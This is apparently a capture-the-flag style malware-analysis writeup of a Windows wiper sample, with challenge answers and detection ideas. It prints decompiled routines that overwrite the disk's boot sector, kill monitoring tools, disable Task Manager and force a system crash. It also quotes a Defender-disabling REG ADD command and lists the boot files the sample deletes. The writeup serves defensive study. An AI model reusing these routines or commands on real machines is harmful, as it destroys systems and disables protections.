

# MalOps — AuraWiper (Wiper) Writeup

**Category:** Wiper · **Level:** Easy · **Tools:** IDA Pro, PE-bear, FLOSS
**Platform:** MalOps.io · **Lab:** Windows 10 FLARE-VM

This is a static-analysis writeup of **AuraWiper**, a Windows x64 wiper. Every claim below is tied to a screenshot from the analysis (IDA Pro, PE-bear, FLOSS). Where a value is read straight from the platform it is marked **confirmed**; where it is my reading of the code it is marked **derived**, so you can see exactly what each answer rests on.

> ⚠️ Defensive/educational analysis of a public training sample. Never run it on a real machine — it overwrites the boot sector and deletes boot files. Analyse only in an isolated, snapshotted VM.

---

## Table of Contents

- [Sample & Setup](#sample--setup)
- [Phase 1 — Triage (PE-bear, FLOSS)](#phase-1--triage-pe-bear-floss)
- [Phase 2 — Entry point: `main` and single-instance mutexes](#phase-2--entry-point-main-and-single-instance-mutexes)
- [Phase 3 — Imports that reveal capability](#phase-3--imports-that-reveal-capability)
- [Phase 4 — Persistence / registry tampering (Q3)](#phase-4--persistence--registry-tampering-q3)
- [Phase 5 — Killing monitoring tools (Q4, Q5)](#phase-5--killing-monitoring-tools-q4-q5)
- [Phase 6 — Disabling Task Manager](#phase-6--disabling-task-manager)
- [Phase 7 — Destructive payloads](#phase-7--destructive-payloads)
- [Phase 8 — Taunting UI and system crash](#phase-8--taunting-ui-and-system-crash)
- [Function map](#function-map)
- [Answer sheet](#answer-sheet)
- [Detection ideas](#detection-ideas)
- [Key takeaways](#key-takeaways)

---

## Sample & Setup

The challenge ZIP (password `infected`) holds one PE file named by its hash (64 hex characters, SHA-256 style):

`521e714bdc7fdbdc9789aaac1beec6ca63b936e613bc606e2c341d1d8ced64d0.bin`


**Tool order that works on FLARE-VM:** PE-bear (headers, strings) → FLOSS (decoded/stack strings) → IDA Pro (imports, xrefs, pseudocode). Always snapshot the VM first.

---

## Phase 1 — Triage (PE-bear, FLOSS)

**Concept:** Before reversing, pull cheap indicators: the PDB path leaks the developer's build environment and sometimes the project name.

**Manual method:** In PE-bear open the sample → **Strings** tab → search `.pdb`.


PDB path found at file offset `0x5F264`:

```
C:\Users\prostone\Desktop\all\Malware-67-main\Release\SF-Verif.pdb
```

Cross-check with FLOSS, which also recovers stack and tight strings. My first run failed because PE-bear still had the file open — close it, then re-run:

```cmd
floss.exe 521e714b...64d0.bin > Floss_out.txt
```


Searching the output in Notepad finds the same `.pdb` string, so both tools agree:


**Pattern to recognise next time:** `Release\<Name>.pdb` under a user's Desktop = unstripped debug path. Always search `.pdb` first; project names like `SF-Verif` / `Malware-67-main` help with attribution and search.

---

## Phase 2 — Entry point: `main` and single-instance mutexes

**Concept:** Malware often creates a named mutex so only one copy runs. The trick: call `CreateMutexA`, then `GetLastError`; if it returns `0xB7` (`ERROR_ALREADY_EXISTS`) another instance already holds it.

**Manual method:** In IDA open the **Functions** window → search `main` → read the graph from the top.


In `main`:

- Two `CreateThread` calls start worker routines (one start address is `sub_140015680`).
- `Global\SFV67PayloadLeader` and `Global\SFVDeployOnce` are created with `CreateMutexA`.
- Each is followed by `GetLastError` and `cmp eax, 0B7h`, then a branch: **single-instance / "leader" logic**.

**Pattern:** `CreateMutexA` → `GetLastError` → `cmp eax, 0B7h` = "am I already running?". `Global\` prefix = session-wide.

---

## Phase 3 — Imports that reveal capability

**Concept:** The import table is a capability summary. In IDA open **Imports** and filter by name.

| Import | DLL | Address | Why it matters |
|---|---|---|---|
| `RegCreateKeyExA` | ADVAPI32 | `0x14004C010` | Creates/opens a registry key |
| `RegSetValueExA` | ADVAPI32 | `0x14004C018` | Writes registry values |
| `RegOpenKeyExA` | ADVAPI32 | `0x14004C028` | Opens existing keys |
| `CreateProcessA` | KERNEL32 | `0x14004C190` | Launches processes |
| `mciSendStringA` | WINMM | `0x14004C670` | Multimedia command strings (audio playback) |
| `MessageBoxA` | USER32 | `0x14004C588` | Shows pop-ups |
| `CreateFileW` | KERNEL32 | `0x14004C308` | Opens files **and raw devices** |
| `DeleteFileA` | KERNEL32 | `0x14004C118` | Deletes files |


**Method:** select an import → press `X` for cross-references → each caller is a function worth reading.

---

## Phase 4 — Persistence / registry tampering (Q3)

**Question 3 — How many persistence mechanisms are implemented by AuraWiper?**
**Answer: `4`** (confirmed by the platform, 10/10 points)



**Registry evidence from the code.** `sub_14000F4B0` opens and writes Windows personalization-related values under `HKCU\Software\Microsoft\Windows\CurrentVe…` (path is truncated in the IDA operand column). Values written include `ColorPrevalence`, `EnableTransparency`, `AccentColor`, `AccentColorMenu` and `StartColorMenu`, each with `RegSetValueExA` followed by `RegCloseKey`:


Related strings in `.rdata` that point to further registry-based system changes:

- `SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon` with the value name `Shell` (xref `sub_140013E00+666`).
- `REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware …`, and the Real-Time Protection values `DisableRealtimeMonitoring`, `DisableBehaviorMonitoring`, `DisableOnAccessProtection` (xref `sub_140011C70+9`).


> **Honesty note:** the platform confirms the count of **4**. My screenshots show the registry and Winlogon/Defender strings above but not a single table listing "the four", so I do not claim to name all four from the screenshots alone. See the Answer sheet.

**Pattern:** persistence and defence evasion on Windows live in `Run`/`RunOnce`, `Winlogon\Shell|Userinit`, services, scheduled tasks, and policy keys. Hunt for `RegCreateKeyExA` / `RegSetValueExA` xrefs and for `REG ADD` / `schtasks` / `sc` strings.

---

## Phase 5 — Killing monitoring tools (Q4, Q5)

**Question 4 — What is the virtual address of the function responsible for terminating common system monitoring tools by process name?**
**Answer: `0x140011BE0`** (confirmed by the platform, 10/10 points)

**Approach.** Search `taskmgr` in the Strings window; the process-name strings are stored together in `.rdata`:


The targeted names are `taskmgr.exe`, `ProcessHacker.exe`, `procexp.exe`, `procexp64.exe`, `powershell.exe` (all in the `.rdata` listing in screenshot 13). Their xrefs all point at `sub_140011BE0`, which is the function in the platform's answer. Open it:


```asm
sub_140011BE0 proc near                ; Attributes: noreturn
    push rbx
    sub  rsp, 20h
    mov  ecx, 4E20h                    ; dwMilliseconds = 20000
loc_140011BEB:
    call cs:Sleep
    lea  rcx, "taskmgr.exe"        ; call sub_140010570
    lea  rcx, "ProcessHacker.exe"  ; call sub_140010570
    lea  rcx, "procexp.exe"        ; call sub_140010570
    lea  rcx, "procexp64.exe"      ; call sub_140010570
    lea  rcx, "powershell.exe"     ; call sub_140010570
    call cs:GetCurrentProcessId
    ...  OpenProcess(0x200 = PROCESS_SET_INFORMATION, ...)
```

The function is `noreturn` and has a back-edge in the graph, so it is a **watchdog loop**: sleep 20 s, kill the five tools, repeat. After the kills it calls `OpenProcess` on its own PID with access `0x200` (the screenshot goes on to a priority-class argument of `0x100`, i.e. it raises its own priority — derived, the rest of the block is not shown).

Cross-references to the function:


- `main+1D9` — `lea rcx, sub_140011BE0` (the address is passed as a thread start routine; that is how the loop is launched)
- two `.pdata` RUNTIME_FUNCTION entries (unwind info, not real callers)

**Question 5 — How many times does AuraWiper invoke the process-termination function?**
**Answer (derived): `5`** — the platform field is empty in my screenshot, so this is not yet confirmed.

The termination helper is `sub_140010570(LPCCH lpMultiByteStr)`. `sub_140011BE0` calls it once per target name: taskmgr, ProcessHacker, procexp, procexp64, powershell = **5 call sites** (screenshots 15 and 17).


```c
int __fastcall sub_140010570(LPCCH lpMultiByteStr) {
    MultiByteToWideChar(0, 0, lpMultiByteStr, -1, WideCharStr, 260);
    Toolhelp32Snapshot = CreateToolhelp32Snapshot(2u /*TH32CS_SNAPPROCESS*/, 0);
    ...
    if (Process32FirstW(snap, &pe)) {
        do {
            if (sub_14002C590(pe.szExeFile, WideCharStr) == 0) {      // name match
                v4 = OpenProcess(1u /*PROCESS_TERMINATE*/, false, pe.th32ProcessID);
                if (v4) { TerminateProcess(v4, 0); CloseHandle(v4); }
            }
        } while (Process32NextW(snap, &pe));
    }
    CloseHandle(snap);
}
```

> **Check before submitting:** `sub_140010570` could also be called from other functions. Press `X` on `sub_140010570` in IDA and count every caller if the platform asks for the *total* number of invocations in the whole binary (the platform's xref list on `sub_140010570` is not in my screenshots).

**Pattern:** `CreateToolhelp32Snapshot(2)` + `Process32First/Next` + `OpenProcess(1)` + `TerminateProcess` is the classic "kill by process name" routine. `ProcessHacker`/`procexp` in the string list = anti-analysis / anti-monitoring.

---

## Phase 6 — Disabling Task Manager

`sub_140011B50` sets the policy value that greys out Task Manager.


```c
Data = 1;
if (RegCreateKeyExA(HKEY_CURRENT_USER,
        "Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\System",
        0, 0, 0, 2u, 0, &hKey, 0) == 0) {
    RegSetValueExA(hKey, "DisableTaskMgr", 0, REG_DWORD /*4*/, &Data, 4u);
    RegCloseKey(hKey);
}
```

In the asm, `mov rcx, 0FFFFFFFF80000001h` is the predefined handle for `HKEY_CURRENT_USER`.

**Pattern:** a hard-coded `0xFFFFFFFF8000000x` is a predefined registry root (`...0001` = HKCU, `...0002` = HKLM). `Policies\System\DisableTaskMgr = 1` is a common "lock the user out" setting.

---

## Phase 7 — Destructive payloads

### 7a. Overwriting the first disk sector (MBR)


```c
void __noreturn sub_140011AA0() {
    Sleep(0x2710u);                                    // 10 s
    while (1) {
        memset(Buffer, 0, sizeof(Buffer));             // 512 zero bytes
        FileW = CreateFileW(L"\\\\.\\PhysicalDrive0",
                            0x10000000u /*GENERIC_ALL*/, 3u /*SHARE_READ|WRITE*/,
                            0, 3u /*OPEN_EXISTING*/, 0, 0);
        if (FileW != INVALID_HANDLE_VALUE) {
            WriteFile(FileW, Buffer, 0x200u, &written, 0);   // overwrite sector 0
            CloseHandle(FileW);
        }
        Sleep(0xC8u);                                  // 200 ms, then repeat
    }
}
```

Opening `\\.\PhysicalDrive0` and writing 512 zero bytes at offset 0 destroys the boot sector (MBR). The loop repeats every 200 ms.

### 7b. Deleting boot and system files

`DeleteFileA` has callers including `sub_140011650` (offset `+0x28`):


Files it deletes: `winload.exe`, `winresume.exe`, `winload.efi`, `winresume.efi`, `bootmgr`, `bootmgfw.efi`, `hal.dll`, `ntoskrnl.exe`, `kernel32.dll` (all under `C:\Windows\System32\`), the registry hives `config\SAM`, `config\SECURITY`, `config\SYSTEM`, `config\SOFTWARE`, plus `C:\boot.ini`, `C:\ntldr`, `C:\bootmgr`, `C:\bootmgr.efi`. A `for (i = 67; i <= 90; ++i)` loop then builds drive-letter strings (ASCII 67–90 = `C`..`Z`); the rest of that loop is cut off in my screenshot.

**Pattern:** deleting `ntoskrnl.exe`, `hal.dll`, boot manager, and registry hives, plus a raw write to `PhysicalDrive0`, is a **wiper** signature — the goal is irrecoverable damage, not data theft or ransom.

---

## Phase 8 — Taunting UI and system crash

### 8a. `MessageBoxA` pop-ups


`MessageBoxA` is called from `sub_14000FC00` (`+0xA4`). Caption comes from the pointer table at `off_14005E238`, text from the table at `off_14005DCA8`, selected with a compiler-generated division by 6 (`mov eax, 2AAAAAABh` / `imul`), i.e. one of six messages — **derived**, I did not dump the tables. `uType = 0x1030` (`MB_ICONEXCLAMATION | MB_SYSTEMMODAL`). A counter at `dword_14006AD10` is incremented and `UnhookWindowsHookEx` is then called.

### 8b. Forced crash — `NtRaiseHardError`

`sub_140014E40` is the main "final act" routine.


What the code shows:

1. Hides itself: `GetConsoleWindow` → `ShowWindow(…, 0)`, `FreeConsole`, `SetThreadExecutionState(0x80000003)` (keep the system awake).
2. Enables **`SeShutdownPrivilege`** (`OpenProcessToken` → `LookupPrivilegeValueW` → `AdjustTokenPrivileges`).
3. Starts a thread, then `Sleep(0x124F8)` (75 s).
4. Resolves `RtlAdjustPrivilege` and `NtRaiseHardError` dynamically (`LoadLibraryW("ntdll")` + `GetProcAddress`). `RtlAdjustPrivilege(0x13, …)` — privilege `0x13` = `SeShutdownPrivilege`.
5. Calls `NtRaiseHardError` with status **`0xDEADDEAD`** and response option `6`, which on a real system forces a blue screen / shutdown (option meaning from the documented native API, not from this sample).
6. Writes `C:\Windows\Temp\clean.bat` with `@echo off` and `timeout /t 3 >nul` — a cleanup script for the sample's own file (the remaining lines are not visible in my screenshot).

**Pattern:** `LoadLibrary("ntdll")` + `GetProcAddress("NtRaiseHardError")` with `0xDEADDEAD` = deliberate BSOD. `GetModuleFileNameA` + `fopen("...clean.bat","w")` + `timeout` = self-delete batch trick.

---

## Function map

| Address | Role (evidence) |
|---|---|
| `main` (`0x1400156F0`) | Creates threads, two `Global\` mutexes |
| `sub_140011BE0` | **Q4** — process-kill watchdog loop (20 s sleep, 5 targets) |
| `sub_140010570` | Kill-by-name helper (Toolhelp32 + `TerminateProcess`) |
| `sub_140011B50` | Sets `Policies\System\DisableTaskMgr = 1` (HKCU) |
| `sub_14000F4B0` | Registry writes: ColorPrevalence, EnableTransparency, AccentColor, … |
| `sub_140011C70` | References the Defender-disable `REG ADD` command string |
| `sub_140011AA0` | Loop writing 512 zero bytes to `\\.\PhysicalDrive0` |
| `sub_140011650` | `DeleteFileA` on boot/system files and registry hives |
| `sub_14000FC00` | `MessageBoxA` pop-ups (message tables) |
| `sub_140014E40` | Hide console, `SeShutdownPrivilege`, `NtRaiseHardError(0xDEADDEAD)`, `clean.bat` |

---

## Answer sheet

| Q | Question (as shown on platform) | Answer | Status |
|---|---|---|---|
| 3 | How many persistence mechanisms are implemented by AuraWiper? | `4` | **Confirmed** (10/10) |
| 4 | Virtual address of the function that terminates common monitoring tools by process name | `0x140011BE0` | **Confirmed** (10/10) |
| 5 | How many times does AuraWiper invoke the process-termination function? | `5` | Derived from 5 call sites in `sub_140011BE0`; not yet confirmed |
| 1, 2, 6–15 | *Question text not in the evidence set* | — | See the evidence sections above; add wording and answers here |

---

## Detection ideas

- **File/hash:** PDB string `Malware-67-main\Release\SF-Verif.pdb`; mutexes `Global\SFV67PayloadLeader`, `Global\SFVDeployOnce`.
- **Behaviour:** write handle opened on `\\.\PhysicalDrive0`; mass deletion of `winload`, `bootmgr`, `ntoskrnl.exe`, `config\SAM|SYSTEM`; `NtRaiseHardError` calls.
- **Registry:** `HKCU\...\Policies\System\DisableTaskMgr = 1`; Defender policy keys under `HKLM\SOFTWARE\Policies\Microsoft\Windows Defender`.
- **Process:** repeated termination of `taskmgr.exe`, `procexp*.exe`, `ProcessHacker.exe`; creation of `C:\Windows\Temp\clean.bat`.

## Key takeaways

1. Start with cheap wins: PDB path, mutex names, imports.
2. Use imports to pick the functions that matter, then `X` for xrefs.
3. A hard-coded sleep + `noreturn` + back-edge in the graph = a watchdog loop run on its own thread.
4. Name a function only from the code you saw; mark everything else as derived.
